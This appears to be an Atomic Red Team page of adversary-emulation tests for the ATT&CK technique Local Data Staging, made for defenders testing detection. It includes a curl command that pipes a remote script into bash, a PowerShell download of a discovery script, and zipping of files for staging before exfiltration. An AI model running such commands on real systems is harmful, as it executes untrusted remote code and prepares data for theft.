 # T1074.001 - Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074.001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
